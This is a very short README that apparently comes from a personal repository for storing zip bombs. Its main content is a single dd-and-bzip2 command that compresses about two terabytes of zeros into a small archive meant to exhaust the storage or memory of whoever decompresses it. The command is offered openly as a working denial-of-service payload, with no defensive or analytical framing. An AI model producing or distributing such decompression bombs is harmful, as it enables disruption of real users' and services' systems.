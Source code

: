 #ZIP BOMB
This is where I store zip bombs

command: `dd if=/dev/zero bs=1G count=2000 iflag=fullblock status=progress | bzip2 -c > funny.bz2`
